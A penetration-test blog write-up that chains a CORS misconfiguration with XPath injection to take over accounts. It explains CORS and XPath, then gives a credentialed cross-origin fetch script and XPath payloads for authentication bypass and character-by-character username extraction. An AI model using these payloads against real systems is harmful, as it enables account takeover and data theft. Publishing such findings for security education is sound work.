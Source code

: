 ```yaml
---
title: "CORS Misconfiguration to Account Takeover"
date: 2025-02-20
draft: false
description: "Chaining a CORS Misconfiguration with XPath-Injectino to take over arbitrary Accounts of the application"
tags: ["CORS", "ATO", "SOP", "XPath"]
---
```


<link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/6.5.1/css/all.min.css">

During an assesment, I uncovered a chain of exploits that began with a <span class="text-primary-400">CORS misconfiguration</span> and culminated in an account takeover / <span class="text-primary-400">authentication bypass via XPath injection in an API endpoint</span>. This article will describe the essentials of CORS, XPATH injections, and the way I was able to exploit the chain.

---

## <i class="fa-solid fa-bars text-primary-400"></i> Basics

### What Is CORS?
Cross-Origin Resource Sharing (<span class="text-primary-400">CORS</span>) is a security feature implemented in web browsers that allows web pages to make requests to a different domain than the one that served the web page. In simpler terms, it <span class="text-primary-400">enables a web application running on one domain to request resources from another domain securely</span>.

### Same-Origin Policy
To understand CORS, it's essential to understand the <span class="text-primary-400">same-origin policy</span>, a fundamental security concept in web development. By default, a <span class="text-primary-400">web browser restricts scripts on a web page from making requests to a different domain</span>. This means a script loaded from <span class="text-primary-400">one origin cannot interact with resources from another origin</span>.

An origin is defined by three components:
- <span class="text-primary-400">Protocol</span>: The communication method (e.g., `http`, `https`)
- <span class="text-primary-400">Host</span>: (domain and subdomain, e.g., `example.com`, `api.example.com`)
- <span class="text-primary-400">Port</span>: The server port number (e.g., `:80`, `:443`)

For example:
- `https://www.example.com` and `https://api.example.com` are different origins because the subdomains (<span class="text-primary-400">Host</span>) differ
- `http://www.example.com` and `https://www.example.com` are different origins because the protocols differ

### How Does CORS Work?
CORS provides a way for the server to <span class="text-primary-400">relax the same-origin policy by specifying who can access its resourcesy</span>. It does this through HTTP headers that tell the browser whether to allow a web page to access resources from a different origin.

#### Allowed Origins
```HTTP
GET /page HTTP/1.1
Host: example.com
Origin: https://www.example.com
```

```HTTP
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://www.example.com
```

When sending a request with the Origin header set, the webserver will respond with the `Access-Control-Allow-Origin` header, and if allowed, the requested Origin.

#### Authentication

```HTTP
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://www.example.com
Access-Control-Allow-Credentials: true
```

If the allow credentials header is configured, the browser is instructed to include authentication credentials, e.g. cookies, in the request automatically.

---

### What Is XPath?
XPath (<span class="text-primary-400">XML Path Language</span>) is a query language used for selecting nodes from an XML document. It allows you to <span class="text-primary-400">navigate through elements and attributes in an XML document</span>, making it easier to extract and manipulate data.

#### Basic Concepts
<span class="text-primary-400">Nodes</span>: The fundamental units in an XML document, including elements, attributes, text, and comments.

```XML
<library>
  <book category="fiction">
    <title>The Adventures of Tom Sawyer</title>
    <author>Mark Twain</author>
  </book>

  <book category="non-fiction">
    <title>A Brief History of Time</title>
    <author>Stephen Hawking</author>
  </book>
</library>
```

<span class="text-primary-400">Expressions</span>: XPath uses path expressions to select nodes or node sets in an XML document.

> Select the First <book> Element

`/library/book[1]`

> Select <book> Elements with a Specific Attribute

`/book[@category='fiction']`

---

## <i class="fa-solid fa-hammer text-primary-400"></i> The Exploit

### Endpoint Enumeration
The first step in any penetration test involves mapping out the application's attack surface. Normally, I begin by enumerating the API endpoints of the target. However, every endpoint I discovered required an authentication bearer token, preventing any further interaction without valid credentials

### CORS Misconfiguration
While enumerating the application, I noticed that there was a CORS misconfiguration regarding allowed origins. Upon sending a request containing arbitrary Origins, I got the following responses.

```HTTP
GET / HTTP/1.1
Host: target.com
Origin: https://www.attacker.com
```

```HTTP
HTTP/1.1 200 OK
Access-control-allow-origin: attacker.com
Access-Control-Allow-Credentials: true
```

The `Access-Control-Allow-Origin` header was set to a <span class="text-primary-400">wildcard</span>, effectively allowing any origin to access the resources. Combined with `Access-Control-Allow-Credentials: true`, this meant that <span class="text-primary-400">browsers would include cookies</span> and authentication credentials in cross-origin requests.

#### Exploiting CORS
```JS
fetch('https://target-application.com/protected-endpoint', {
  method: 'GET',
  credentials: 'include' // Tell the browser to include saved credentials
})
.then(response => response.json())
.then(data => {
  console.log(data);
  // Potentially exfiltrate data to attacker-controlled server
});
```

This script attempts to access a protected endpoint, with the browser including any credentials due to the misconfigured CORS policy. <span class="text-primary-400">That essentially means, that we can use the victims session to interact with the protected API functions</span>. Now that we bypassed the protected endpoints, let us check if there are any vulneratbillities within those API functions.

### Exploiting XPath
During recon I found an endpoint called `/token`. This endpoint is essentially used to <span class="text-primary-400">login via POST parameters</span> (username, password) and <span class="text-primary-400">retreive an API bearer token</span>, which can then be used to access and use the API functions. Here, different users had different access rights on different endpoints.
The <span class="text-primary-400">endpoint is using an XML document as a Database</span>. Here, XPath queries are used to search for a `user:password` combination in the Database and authenticate them. A basic query might look something like this:

```python
/root/*[password='Test123' and username='MyUser']
```

#### Injection Payload
```HTTP
POST /token HTTP/1.1
Host: target-application.com
Content-Type: application/x-www-form-urlencoded

username=' or '1'='1&password=' or '1'='1
```

This payload (URL encoded) injects an <span class="text-primary-400">always-true condition</span> into the XPath query. The backend likely executed a query similar to:

```python
/root/*[password='' or '1'='1' and username='' or '1'='1']
```

Given the injected condition, the query most likely returns / uses the first user in the XML database, effectively bypassing authentication controls and <span class="text-primary-400">providing me with a valid Bearer Token for that account</span>, which I can then use to access their API functions.

#### Enumerating Users
To escalate the attack, we can try to enumerate usernames and extract passwords using XPath functions like `starts-with()` and `substring()`. By iterating over character positions and possible values, we can try to reconstructed usernames and passwords, gaining access to multiple accounts.

```HTTP
POST /token HTTP/1.1
Host: target-application.com
Content-Type: application/x-www-form-urlencoded

username=' or string-length(username)=5 and '1'='1&password=irrelevant
```

```HTTP
POST /token HTTP/1.1
Host: target-application.com
Content-Type: application/x-www-form-urlencoded

username=' or substring(username,1,1)='a' and '1'='1&password=irrelevant
```

## <i class="fa-solid fa-table-list text-primary-400"></i> Conclusion
This engagement underscored how a <span class="text-primary-400">seemingly minor issues can be chained together for significant impact</span>. A CORS misconfiguration allowed me to bypass the same-origin policy, and an XPath injection in the authentication mechanism enabled full account compromise.